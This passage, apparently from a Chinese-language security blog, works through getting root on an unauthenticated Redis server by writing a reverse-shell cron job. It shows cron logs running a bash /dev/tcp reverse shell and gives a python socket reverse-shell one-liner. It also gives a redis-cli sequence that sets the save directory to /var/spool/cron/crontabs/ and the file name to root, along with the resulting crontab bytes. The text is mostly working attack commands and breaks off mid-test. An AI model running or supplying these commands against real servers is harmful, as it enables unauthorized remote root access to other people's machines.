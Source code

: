 "No MTA installed, discarding output"网上有很多解法，解法1是安装邮件服务器；解法2是把shell命令放到一个文件中，执行该文件，然后重定向到null文件。官方解法见链接https://cronitor.io/cron-reference/no-mta-installed-discarding-output

值得注意的是，官方里面说这个错误不会影响任务本身的执行，但是为什么依然没有反弹shell呢，我们试着用其中一种解法`MAILTO=""`来解决该错误，然后观察日志，

```shell
Jul 18 19:38:01 mint-VirtualBox cron[2173]: (root) RELOAD (crontabs/root)
Jul 18 19:38:01 mint-VirtualBox CRON[2964]: (root) CMD (bash -i >& /dev/tcp/192.168.0.106/2333 0>&1)
Jul 18 19:38:20 mint-VirtualBox crontab[2967]: (root) LIST (root)
Jul 18 19:39:01 mint-VirtualBox CRON[2975]: (root) CMD (bash -i >& /dev/tcp/192.168.0.106/2333 0>&1)
```
果然没再报错，但是依旧没有反弹shell，是不是反弹shell命令写错了？我们尝试直接执行是没有问题的，
![/data/typora_assets/redis/20200718194424795.png](https://i.loli.net/2020/07/24/BLlkCrbD8aujJvV.png)
后来发现这篇文章，https://www.onebug.org/websafe/98675.html 里面提到“bash -i反弹shell都失败，不过python，perl可以”，换成python的试一下，确实可以，
![/data/typora_assets/redis/20200718200550210.png](https://i.loli.net/2020/07/24/YViLD2kGw1CsZoA.png)
我们使用python反弹shell试一下ubuntu是否真的会受格式影响，

```shell
echo -e "\n\n* * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/crontabs/  # 指定本地数据库存放目录
redis-cli -h $1 -p $2 config set dbfilename root  # 指定本地数据库文件名，默认值为dump.rdb
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit

127.0.0.1:6379> get 1
"\n\n* * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\
```
但是写入到`/var/spool/cron/crontabs/root`文件的比较怪，
```
EDIS0008ú      redis-ver^E4.0.9ú
redis-bitsÀ@ú^EctimeÂ}æ^R_ú^Hused-memÂ¨Ó^L^@ú^Laof-preambleÀ^@þ^@û^A^@^@À^AÃ@Á@ù^C

* À^A^_/usr/bin/python -c 'import socke^Qt,subprocess,os;s=<80>^V^@.<80>^F^@(<80>^F^H.AF_INET, ^N^]SOCK_STREAM);s.connect(("127.0 ^A^_1",2333));os.dup2(s.fileno(),0);^@ à
^V^@1à^M^V^D2);p=à^A¤^G.call(["`Ô^Nsh","-i"]);'


ÿáÍëÝîÇpá
```
16进制查看，
![/data/typora_assets/redis/20200718214546791.png](https://i.loli.net/2020/07/24/Vzei6OFRBC8aSGX.png)
按照https://lorexxar.cn/2016/12/03/redis-getshell/ 这篇文章所讲好像发生了截断？但是具体怎么个截断法，没搞明白，是否可能构造出完美payload有待研究？如果写入字符比较少就不会发生截断，例如，
![/data/typora_assets/redis/20200718220052178.png](https://i.loli.net/2020/07/24/3TlSW2YkRxQreUf.png)
最后我们尝试一下，如果不发生截断的情况下写到`/var/spool/cron/crontabs/root`文件，能否反弹shell，我们手动更改`/var/spool/cron/crontabs/root`文件内容如下，

